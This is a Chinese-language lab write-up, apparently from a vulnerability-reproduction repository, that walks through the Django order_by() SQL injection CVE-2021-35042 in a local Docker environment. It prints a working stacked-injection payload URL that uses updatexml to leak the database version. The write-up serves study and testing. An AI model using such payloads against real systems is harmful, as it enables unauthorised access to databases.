


# Django QuerySet.order_by() SQL注入漏洞（CVE-2021-35042）

Django在2021年7月1日发布了一个安全更新，修复了在QuerySet底下的order_by函数中存在的SQL注入漏洞

参考链接:

- https://www.djangoproject.com/weblog/2021/jul/01/security-releases/

该漏洞需要用户可控order_by传入的值，在预期列的位置注入SQL语句。

## 漏洞环境

执行如下命令编译及启动一个存在漏洞的Django 3.2.4：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8000`即可看到Django默认首页。

## 漏洞复现

访问页面`http://your-ip:8000/vuln/`，在GET参数中构造`order=-id`，会得到根据id降序排列的结果：

`http://your-ip:8000/vuln/?order=-id`



再构造GET参数`order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@version)),1)%23`提交，其中`vuln_collection`是`vuln`应用下的模型`Collection`

`http://your-ip:8000/vuln/?order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@version)),1)%23`

成功注入SQL语句，利用堆叠注入获得信息：


